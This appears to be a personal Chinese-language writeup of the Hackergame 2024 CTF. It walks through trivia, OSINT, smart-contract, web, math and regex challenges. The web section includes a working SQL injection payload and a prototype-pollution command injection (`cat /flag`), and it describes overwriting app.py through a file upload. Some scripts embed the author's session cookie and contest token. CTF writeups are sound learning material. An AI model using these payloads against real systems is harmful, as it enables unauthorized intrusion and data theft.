




+++
title = 'Hackergame 2024 Personal Writeup'
date = 2024-11-02T14:24:56+08:00
summary = "Finally I got some time to play Hackergame"
math = true
draft = false
tags = ['Writeup', 'Hackergame']
categories = ['CTF']
+++

## General

### 签到

看url，用`?pass=true`就好了。

### 喜欢做签到的 CTFer 你们好呀

> 不要打开`.oh-you-found-id`，会跳转到奶龙。

第一个flag在`env`里面，第二个flag在隐藏的`.flag`里面，用`ls -a`就好了。

### 猫咪问答

**Q1: 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？**

Hackergame 2015 原名叫"中国科学技术大学第二届信息安全大赛"，[这里](https://lug.ustc.edu.cn/wiki/sec/contest.html)有赛前讲座。

**Q2: 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？**

查找发现2019年的Hackergame有28道题目，是近五年最少的，所以答案是2019年的Hackergame有多少人注册参加，在(这里)[https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/]可以找到是2682人参加。

**Q3: Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？**

Hackergame 2018 猫咪问答有道题问`在中国科大图书馆中，有一本书叫做《程序员的自我修养:链接、装载与库》，请问它的索书号是？` 猜测就是这个，然后找到一篇Writeup，检索关键字是`程序员的自我修养`，就是答案。

**Q4: 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？**

搜索`USENIX Security USTC`，找到一篇新闻，USTC在会议上报告了两篇论文，其中一篇是`FakeBehalf: Imperceptible Email Spoofing Attacks against the Delegation Mechansim in Email Systems”`，然后看原文，搜索`combination`就能找到`336`这个数字。

**Q5: 0 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？**

紧跟实事，[Linux Kernel Mailing List](https://lore.kernel.org/all/20241023080935.2945-2-kexybiscuit@aosc.io/)就能找到。

**Q6: 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？**

没钱买服务器部署llama3，于是白嫖英伟达爸爸的[免费API](https://build.nvidia.com/meta/llama3-70b)。

```python
import requests

url = "https://integrate.api.nvidia.com/v1/chat/completions"

payload = {
    "model": "meta/llama3-70b-instruct",
    "max_tokens": 1024,
    "stream": False,
    "temperature": 0.5,
    "top_p": 1,
    "frequency_penalty": 0,
    "presence_penalty": 0,
    "seed": 0,
    "messages": [
        {
            "role": "user",
            "content": open('.html', 'r', encoding='utf-8').read()
        }
    ]
}
headers = {
    "accept": "application/json",
    "content-type": "application/json",
    "authorization": "NVAPI_KEY"
}

response = requests.post(url, json=payload, headers=headers)

print(response.text)
```

但是出来的`prompt_tokens`是1844，不太对。于是一个一个试，发现1833对了。

### 打不开的盒

给了一个`.stl`文件，Mac 可以直接预览，好诶！

### 每日论文太多了！

PDF隐写。用`pdftotxt`转换一下，然后用`grep`找到flag。

找到提示flag here的位置，明显有一个白色框，然后找一个网站提取图片，就能看到flag。

### 旅行照片 4.0

**Q1: 照片拍摄的位置距离中科大的哪个校门更近？**

这题目有点太友好了。。。 图片有"科里科气科创驿站"，直接搜索就能找到。


答案是东校区西门。（排列组合一下也许也行。）

**Q2: 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：YYYYMMDD）**

搜索`科大 ACG 音乐会`，找到b站视频，时间是2024年5月19日。

**Q3: 这个公园的名称是什么？（不需要填写公园所在市区等信息）**

图片右下角垃圾桶隐约能看到"六安园林"，然后路中间红黄蓝三色路线，搜索彩虹路能找到中央公园的报道。于是答案是(六安)中央森林公园。

**Q4: 这个景观所在的景点的名字是？（三个汉字）**

搜图直接就出来了，三峡大坝的一个经典，非常有名的喷泉。坛子岭。

**Q5: 距离拍摄地最近的医院是？（无需包含院区、地名信息，格式：XXX医院）**

这个要先做第六问之后才好做。从第六问可知这张照片是北京北动车所，图片中红色屋顶正好对得上。然后地图搜索附近医院，找到了北京积水潭医院（三个字）。

**Q6: 左下角的动车组型号是？**

搜索关键字4编组，发现只有一种型号CRH6，问题是CRH6A-A还是CRH6F-A，然后看图片，红色涂装很有特点，于是搜索红色涂装，找到是CRH6F-A 怀密号，只在北京出没。

然后刚好看到知乎有[文章](https://zhuanlan.zhihu.com/p/346241499)，里面又恰好出现了第五问的答案。

### 惜字如金1.0

Vim 真好用.jpg



### 链上转账助手

> 智能合约好久没做了有点手生，本菜对智能合约也不熟

输入一个合约的bytecode，然后对面会发起十个发送给None的transaction，执行这个合约然后获取合约地址作为转账对象。最后再给这十个合约地址，调用它自己的合约（题目附件）转账。

三个题都是要最后这个转账失败才能拿flag。

#### 转账失败

转账合约

```solidity
contract BatchTransfer {
    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            recipients[i].transfer(amounts[i]);
        }
    }
}
```

然后我们要让这个合约失败，于是我们写一个合约，让它消耗掉所有的gas。

```solidity
contract BatchTransfer {
    function approve(address payable recipient, uint256 amount) external payable {
        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < (1 << 128); i++) {
            for (i = 0; i < (1 << 128); i++) {
                totalAmount += amount;
            }
            totalAmount += amount;
        }
    }
}
```

运行它的compile，然后把bytecode给对面，然后就能拿到flag了。

### 转账又失败

这一次多加了个call, 查资料发现这个是处理转账失败的，于是我们要让这个call失败。

```solidity
contract BatchTransfer {
    mapping(address => uint256) public pendingWithdrawals;

    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            (bool success, ) = recipients[i].call{value: amounts[i]}("");
            if (!success) {
                pendingWithdrawals[recipients[i]] += amounts[i];
            }
        }
    }

    function withdrawPending() external {
        uint256 amount = pendingWithdrawals[msg.sender];
        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        require(success, "Withdrawal failed");
    }
}
```

资料还说，如果call传入空会调用fallback，于是我们让fallback消耗掉所有的gas就好了。

```solidity
contract BatchTransfer {
    event Received(address caller, uint256 amount, string message);

    fallback() external payable {
        uint256 i;
        uint256 amount;
        for (i = 0; i < (1 << 255); i++) {
            for (i = 0; i < (1 << 255); i++) {
                amount += i;
            }
        }
        emit Received(msg.sender, msg.value, "Fallback was called");
    }
}
```

### 不宽的宽字符

感谢zsw大佬的提醒。用脚本输入bytes一直不过。。。然后手动粘贴就过了。。。

宽字符(wchar_t是UTF-16)转UTF-8后是'Z:\theflag\x00'就行了，然后构造这个宽字符

```python
print(b'Z:\\theflag\x00\x01'.decode('utf-16'))
```

## Web

### 比大小王

写的有点丑。总之就是拉去game，ifelse判断一下大小号，然后等一会再提交，要不然会被ban。

```javascript
function solve() {
    fetch('/game', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json',
        },
        body: JSON.stringify({}),
      })
    .then(response => response.json())
    .then(data => {
      values = data.values;
      inputs = []
      sleep(5000).then(() => { 
        for (let i = 0; i < values.length; i++) {
            if (values[i][0] < values[i][1]) {
                inputs.push('<')
            } else {
                inputs.push('>')
            }
          }
          submit(inputs)
        })
        .catch(error => {
          console.log(error)
        })
      });
}
```

### PaoluGPT

第一问，写个爬虫就好了。

```python
import requests
from bs4 import BeautifulSoup

url = 'https://chal01-vfutvlvc.hack-challenge.lug.ustc.edu.cn:8443'
headers = {
    'Cookie': 'session=eyJ0b2tlbiI6IjEwNzc6TUVVQ0lBSGhCYVFZUWlqQXVsRERmd2luZ1piV1RTb0g5UFJWS0xldlZhODNRTmhrQWlFQTFpZUpBM1UvUGpkeE9SeTEwbXJoUVhkRm9NcVcvWmYvWFVpbFBLYmVkYlk9In0.ZyXeYg.kWT_4WjIB96E39meiLRcwXM1_q4'
}

r = requests.get(url + '/list', headers=headers)
soup = BeautifulSoup(r.text, 'html.parser')

i = 0
for ul in soup.select('ul'):
    for li in ul.select('li'):
        r = requests.get(url + li.a['href'], headers=headers)
        if 'flag{' in r.text:
            print(r.text)
            break
```

第二问，简单的SQL注入。

```python
import requests

url = 'https://chal01-vfutvlvc.hack-challenge.lug.ustc.edu.cn:8443'
headers = {
    'Cookie': 'session=eyJ0b2tlbiI6IjEwNzc6TUVVQ0lBSGhCYVFZUWlqQXVsRERmd2luZ1piV1RTb0g5UFJWS0xldlZhODNRTmhrQWlFQTFpZUpBM1UvUGpkeE9SeTEwbXJoUVhkRm9NcVcvWmYvWFVpbFBLYmVkYlk9In0.ZyXeYg.kWT_4WjIB96E39meiLRcwXM1_q4'
}

payload = "/view?conversation_id=' or shown = false; --"
r = requests.get(url + payload, headers=headers)
print(r.text)
```

flag 再url解码一下。

### Node.js is Web Scale

简单的JS原型链污染。所有的dict都是`__proto__`的实例，所有的dict都共享`__proto__`的成员。

```javascript
// POST /set - Set a key-value pair in the store
app.post("/set", (req, res) => {
  const { key, value } = req.body;

  const keys = key.split(".");
  let current = store;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // Set the value at the last key
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});
```

然后直接赋值可以污染`__proto__`，所以只需要注入`key`为`__proto__.cat`，`value`为`cat /flag`污染到cmds，然后执行`/execute?cmd=cat`就能拿到flag。

### 禁止内卷

简单的文件上传。在本地开一个环境，然后输出filepath，用burpsuite抓包





好，我们有任意文件上传了。题目提示说运行命令是`flask run --reload`，那我们可以上传一个恶意的`app.py`覆盖原来的，然后把answers.json输出出来。



我这里只把answers.json dump到报错信息中，然后随便上传个json文件，然后就能看到answers.json。

```python
a = [] # answers.json
flag = ''
for i in a:
    flag += chr(i + 65)
print(flag)
```

## Math

### 优雅的不等式

> 注意力涣散的我没有注意到给了脚本，difficulty 0的式子还傻算了一下

暴论：这其实就是一道脚本题。参考[【科普】如何优雅地“注意到”关于e、π的不等式](https://zhuanlan.zhihu.com/p/669285539)，然后写脚本解式子就好了。没有什么难度，全是苦力活。。。。

首先计算积分

$$
\int_0^1 \frac{x^{n}(1-x)^{n}a+bx+cx^2}{1+x^2}dx
$$

在sagemath里定积分算参数

```sagemath
var('x a b c')
f = x^(80)*(1-x)^(80)*(a+b*x+c*x^2)/(1 + x^2)
f.integral(x, 0, 1)
```

注意到为了压缩长度，上面那个公式的$n$只取积分出来使得$b=0$，即只有b前面有log。试了好久n，最后$n=80$才够用。然后算出来大概是这样

$$
  d_0 (a - c) \pi + d_1 \ln(2) b + d_3a + d_4 b + d_5 c = q \pi - p
$$

把$d_0, d_3, d_5$ copy到脚本里在python里解出来$a, c$, 除以$q$代回去就是$f(x)$

```python
import sympy
from pwn import *


debug = False
equation = 'x**80*(1-x)**80*(a+c*(x**2))/(1+x**2)'

if debug:
    proc = process(['python3', 'graceful_inequality.py'])
else:
    proc = remote('202.38.93.141', 14514)
    proc.recv()
    token = b'1077:MEUCIAHhBaQYQijAulDDfwingZbWTSoH9PRVKLevVa83QNhkAiEA1ieJA3U/PjdxORy10mrhQXdFoMqW/Zf/XUilPKbedbY='
    proc.sendline(token)

for i in range(40):
    print(f'Round: {i}')
    if i == 0:
        proc.recv()
        proc.sendline(b'4*((1-x**2)**(1/2)-(1-x))')
        continue

    print(proc.recvuntil(b'\n'))
    data = proc.recv().decode()

    if 'flag' in data:
        print(data)
        if debug:
            data = proc.recv().decode()

    p, q = map(int, data.split('=')[1].split('\n')[0].split('/'))
    print(f'{p = }, {q = }')

    a, c = sympy.Symbol('a'), sympy.Symbol('c')

    f1 = 274877906944 * (a - c) - q
    f3 = sympy.Rational(-264625355360516117450008340198714638981492191523281648346833579224158082061028, 306437384083077799057007332399381984236948705737346929421798748875) * a + sympy.Rational(3175504264326193409400100082384575667777906298279379780162003198829635728211061, 3677248608996933588684087988792583810843384468848163153061584986500) * c + p

    solution = sympy.solve((f1, f3), (a, c))
    a, c = solution[a] / q, solution[c] / q

    fx = equation.replace('a', '(' + str(a) + ')').replace('c', '(' + str(c) + ')') 
    print(fx)

    proc.sendline(fx.encode())

print(proc.recv())
```

### 强大的正则表达式

长度限制30000，无敌了。。。

#### 1.0

16的倍数，因为$10000 = 16 * 625$，所以只要尾部4个数字是16的倍数就好了，快速生成正则。

```python
tails = '0000'

for i in range(1, 10000):
    if i % 16 == 0:
        tails += f"|{str(i).rjust(4, '0')}"

reg = f"((0|1|2|3|4|5|6|7|8|9)*({tails}))|0"

print(len(reg))
print(reg)
```

#### 2.0

感谢大佬zsw提醒。

有个[很像的算法题](https://leetcode.cn/problems/binary-prefix-divisible-by-5/description/)，以及[解法](https://blog.csdn.net/matrix67/article/details/4779881)。

原理就是，从左往右匹配，每次输入一个0或1相当于左移一位，然后加上这个数。于是我们可以构造一个状态机，状态是当前的数，转移状态是当前数乘2加输入的数模13的结果。然后再把状态机转换成正则表达式。

状态机转正则表达式网上一大堆，这里就不写了。总之不要手打正则，会变得不幸。

#### 3.0

匹配CRC3的值为0的十进制byte串。简单学习了一下CRC3，发现libscrc里的gsm3每个输入是4bit，然后每个byte是8位，猜测有些小技巧

```python
>>> libscrc.gsm3(b'')
7
>>> libscrc.gsm3(b'0')
4
>>> libscrc.gsm3(b'02')
4
>>> libscrc.gsm3(b'03')
7
```

然后猜测03后面直接加一个0会发生什么

```python
>>> libscrc.gsm3(b'030')
4
```

~这不明显是个状态机吗~

然后解状态机就好了。初始状态是`libscrc.gsm3(b'') = 7`, 终止状态是0

```python
import libscrc

states = [[0 for _ in range(10)] for _ in range(8)]
for i in range(10):
    for j in range(10):
        states[libscrc.gsm(str(i).encode())][j] = libscrc.gsm((str(i) + str(j)).encode())

for i in range(8):
    for j in range(10):
        print(states[i][j], end=' ')
    print()
```

### 零知识数独

#### 数独高手

又是一个苦力题，随便找个解数独的网站，然后手动把题目输进去再把答案输进去就好了。

我用的[这个](https://shudu.gwalker.cn/)

## AI

### 先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」

~工人智能~。总所周知，大模型跑出来的话大差不差的，用词基本一样。于是我们批量生成一些文本，然后censor之后再用原文本替换掉`after.txt`中的就行了。

但是不是完全能替换完的，还需要一点手动猜一下词。

